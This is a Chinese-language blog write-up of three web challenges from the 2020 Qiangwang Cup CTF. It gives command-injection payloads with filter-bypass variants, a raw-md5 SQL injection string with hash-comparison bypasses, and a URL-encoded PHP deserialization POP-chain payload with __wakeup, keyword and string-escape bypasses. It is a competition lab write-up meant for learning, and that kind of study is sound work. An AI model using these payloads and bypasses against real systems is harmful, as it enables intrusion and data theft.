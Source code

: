 ```yaml
---
title: 强网杯2020web部分题解
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/avatar.jpg'
authorAbout: steamID：888007034
authorDesc: 'Blizzard：TroyeSivan#51769'
categories: 技术
comments: true
date: 2020-09-05 10:48:52
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/46227.jpg
---
```

强网杯没怎么认真打，这里就简单分享一下其中比较简单的三道题的思路。
由于本人实力有限，讲的比较基础，希望各位师傅见谅。
一、主动。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/98749.jpg)

if里面的正则表示如果参数ip里出现flag那么就会显示flag。

看见system首先想到命令执行，有很多种解法：

1、?ip=127.0.0.1|cat%20fla\g.php
利用linux的反斜杠绕过。

2、?ip=127.0.0.1;cat%20????.php
使用通配符绕过。

3、?ip=;cat fl''ag.php
引号绕过。

4、?ip=;cat `echo 'Li9mbGFnLnBocAo=' | base64 -d `
base64编码绕过。比较麻烦，不推荐。

5、?ip=;a=fl;b=ag;cat $a$b.php
变量赋值绕过。

还有的就不一一列举了。

二、funhash

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/76574.jpg)

首先分析一下源码，需要通过三个阶段，然后var_dump出$row内容。

level1应该是本题最难的点了，如果你搜不到的话。
这里给出碰撞脚本供大家参考：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905223455.png)

参考链接：https://medium.com/@sbasu7241/hsctf-6-ctf-writeups-a807f0b25ae4

大概跑几分钟就能出结果。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905224125.png)

最后提一下原理，因为是弱类型比较，所以可以用科学计数法绕过。

level2和level3就没什么难度了。

level2数组绕过即可。

level3：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905224353.png)

md5($password,true)
先给出答案：
content: ffifdyop
hex: 276f722736c95d99e921722cf9ed621c
raw: 'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c
string: 'or'6]!r,b

当raw的值为true时，返回16位原始二进制格式的字符串。不是普通的二进制（0，1），而是  'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c  这种。

上面的’ffifdyop‘字符串对应的16位原始二进制的字符串就是”    'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c    “  。  '  \  '后面的3个字符连同'  \  '算一个字符，比如’    \xc9    ‘，所以上述一共16个。当然，像’    \xc9    ‘这种字符会显示乱码。

这里32位的16进制的字符串，两个一组就是上面的16位二进制的字符串。比如27，这是16进制的，先要转化为10进制的，就是39，39在ASC码表里面就是’    '    ‘字符。6f就是对应‘    o    ’。

然后我们得到的sql语句就是 SELECT * FROM admin WHERE username = 'admin' and password = ''or'6�]��!r,��b'

为什么password = ''or'6�]��!r,��b'的返回值会是true呢，因为or后面的单引号里面的字符串（6�]��!r,��b），是数字开头的。当然这里不能以0开头。

在mysql里面，在用作布尔型判断时，以1开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true，所以返回值就是true。（不只是1开头，只要是数字开头都是可以的）

payload :  ?hash1=0e251288019&hash2[]=1&hash3[]=2&hash4=ffifdyop


三、web辅助

分析源码。

Class.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905234149.png)
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905234114.png)

这里存在着各种类，也是我们构造pop链的关键，我们的目的是为了触发最后的cat /flag

common.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905234243.png)

这里面的read，write有与'\0\0', chr(0)."".chr(0)相关的替换操作，还有一个check对我们的序列化的内容进行检查，判断是否存在关键字name，这里也是我们需要绕过的一个地方

Index.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200905234322.png)

获取我们传入的username和password，并将其序列化储存

Play.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/90.jpg)

在写入序列化的内容之后，访问play.php，如果我们的操作通过了check，然后经过了read的替换操作之后，便会进行反序列化操作。

分析：
反推，我们的最终目的是要触发jungle类中的KS方法，从而cat /flag，而触发KS方法得先触发__toString方法，一般来说，在我们使用echo输出对象时便会触发。找了很久才发现是stristr($this->name, ‘Yasuo’)这个地方会触发。（在5.x版本前，只有echo能触发toString操作，新版本所有的字符串操作都能触发了）接下来，就需要触发gank函数，所以需要利用midsolo的invoke。topsolo类中的TP方法中，使用了name()，如果我们将一个对象赋值给name，这里便是以调用函数的方式调用了一个对象，此时会触发invoke方法。

此时思路就非常的清晰了：
topsolo->__destruct()->TP()->$name()->midsolo->__invoke()->Gank()->stristr()->jungle->__toString()->KS()->syttem('cat /flag')

构造POP链：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200906004151.png)

O%3A7%3A%22topsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A7%3A%22midsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A6%3A%22jungle%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D

这还没有结束。首先，由于midsolo中的__wakeup会在反序列化过程中覆盖掉我们的传值，因此我们要将midsolo的1改成2来绕过。（老套路了，序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过wakeup的执行）

O%3A7%3A%22topsolo%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7Bs%3A7%3A%22%00%2A%00name%22%3BO%3A6%3A%22jungle%22%3A1%3A%7Bs%3A7%3A%22%00%2A%00name%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D

“name”检测绕过

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200906005726.png)

使用十六进制绕过\6e\61\6d\65，并将s改为S

O%3A7%3A%22topsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A6%3A%22jungle%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D

字符串逃逸

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200906010326.png)

可以看到对象topsolo，midsolo被s:102，所包裹，我们要做的就是题目环境本身的替换字符操作从而达到对象topsolo，midsolo从引号的包裹中逃逸出来

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20200906010548.png)

在反序列化操作前，有个read的替换操作，字符数量从5位变成3位，合理构造username的长度，经过了read的替换操作后，最后将";s:7:"\0\0pass";s:126吃掉，需要吃掉的长度为23，因为5->3，所以得为2的倍数，需要在password中再填充一个字符C，变成24位，所以我们一共需要构造12个\0\0来进行username填充，得到username

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/52352.jpg)

在password中补上被吃掉的pass部分，构造password的提交内容

password=C";s:7:"\0*\0pass";O%3A7%3A%22topsolo%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A7%3A%22midsolo%22%3A2%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3BO%3A6%3A%22jungle%22%3A1%3A%7BS%3A7%3A%22%00%2A%00\6e\61\6d\65%22%3Bs%3A0%3A%22%22%3B%7D%7D%7D

最后

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/re.jpg)

flag在play.php。
